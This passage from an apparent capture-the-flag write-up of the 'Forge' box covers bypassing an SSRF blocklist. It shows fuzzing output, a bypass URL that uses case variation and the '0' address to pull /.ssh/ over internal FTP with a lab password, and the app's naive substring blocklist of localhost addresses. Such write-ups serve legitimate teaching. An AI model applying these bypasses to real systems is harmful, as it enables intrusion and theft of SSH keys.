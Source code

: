 ```
000000001:   200        37 L     67 W     1048 Ch     "forge.htb"                                    
000000005:   200        37 L     67 W     1048 Ch     "127.0.0.1"                                    
000000010:   200        37 L     67 W     1048 Ch     "0.0.0.0"                                      
000000013:   200        37 L     67 W     1048 Ch     "localhost"                                    

Total time: 0.309301
Processed Requests: 13
Filtered Requests: 9
Requests/sec.: 42.03023

```

It looks like the string checks are case-sensitive, which is easy to bypass. And the IP address are only checking the most basic forms.

Knowing this, I can skip the step of having to build a redirector, and just submit a URL like:

```

http://admin.fOrge.htb/upload?u=ftp://user:heightofsecurity123!@0/.ssh/

```

I’m using case to bypass the domain check, and using `0` as shorthand for 0.0.0.0, which works for any interface on the host. It works.

I’ll look at the webserver config in the next section, but the deny list itself is defined in one line in the Flask:

```

blacklist = ["forge.htb", "127.0.0.1", "10.10.10.10", "::1", :"localhost",
             '0.0.0.0', '[0:0:0:0:0:0:0:0]']

```

That list is applied in one other line later:

```

if any([i for i in blacklist if i in url]):
    return render_template('upload.html', navigation=navigation,
                           message="URL contains a blacklisted address!")

```

It’s looping over the strings in the list and checking if any are in the url.

### Web Server Config (and Requests / FTP?)

To answer the question “how does requests fetch over FTP?” I went on a bit of an exploration. And this is the kind of exploration I recommend everyone do whenever they root a box - Try to understand as much of how the box works as you can. Here’s the [video](https://www.youtube.com/watch?v=l5hx3SO9668):